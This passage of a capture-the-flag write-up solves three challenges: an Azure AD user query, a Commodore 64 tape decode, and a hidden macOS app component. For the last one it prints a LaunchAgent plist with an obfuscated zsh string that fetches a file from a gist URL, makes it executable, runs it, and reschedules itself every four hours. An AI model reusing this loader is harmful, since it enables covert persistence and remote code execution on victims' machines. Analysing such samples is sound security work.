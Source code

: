 ```
> Get-AADIntUsers | Where-Object {$_.Title -eq "President"} | Select -Property PhoneNumber

PhoneNumber
-----------
flag{1e674f0dd1434f2bb3fe5d645b0f9cc3}
```

## PRESS PLAY ON TAPE
This is a reference to the tape loading of the Commodore 64. I used a utility to solve this:

```
wav2tap.exe pressplayontape.wav | c64tapedecode.exe -v
```

Inside was a basic file containing the flag:

```
C64File
"FLAG[32564872D760263D52929CE58CC40071]"  
```

## Welcome to the Park
This was a MacOS app directory. There was a hidden Mach-O file inside, which contained the following XML (it was Base64 encoded):

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
	<dict>
		<key>Label</key>
		<string>com.huntress.ctf</string>
		<key>ProgramArguments</key>
		<array>
			<string>/bin/zsh</string>
			<string>-c</string>
			<string>A0b='tmp="$(m';A0bERheZ='ktemp /tmp/XX';A0bERheZX='XXXXXX)"';A0bER='; curl --';A0bE='retry 5 -f ';A0bERh='"https://';A0bERheZXDRi='gist.githu';xbER='b.com/s';juuQ='tuartjas';juuQQ7l7X5='h/a7d18';juuQQ7l7X5yX='7c44f4327';juuQQ7l7X5y='739b752d037be45f01';juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh</string>
		</array>
		<key>RunAtLoad</key>
		<true />
		<key>StartInterval</key>
		<integer>14400</integer>
	</dict>
</plist>
```
